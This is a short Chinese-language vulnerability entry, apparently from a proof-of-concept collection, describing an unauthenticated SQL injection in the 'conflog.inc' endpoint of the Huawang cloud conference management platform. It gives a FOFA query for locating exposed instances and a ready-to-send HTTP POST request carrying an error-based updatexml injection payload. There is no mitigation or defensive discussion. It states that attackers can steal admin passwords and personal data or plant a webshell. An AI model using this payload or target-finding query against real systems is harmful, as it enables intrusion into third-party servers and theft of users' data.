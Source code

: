 # 华望云会议管理平台conflog.inc存在SQL注入漏洞

华望云会议管理平台 `conflog.inc` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

```javascript
POST /page/conflog.inc?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&params[]=confName&params[]=confId&selectTime=1 HTTP/1.1
Host: 
Cookie: uid=112; JSESSIONID=8E8A139355E2047CEAC6B307396968A8; languageGlobal=1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```

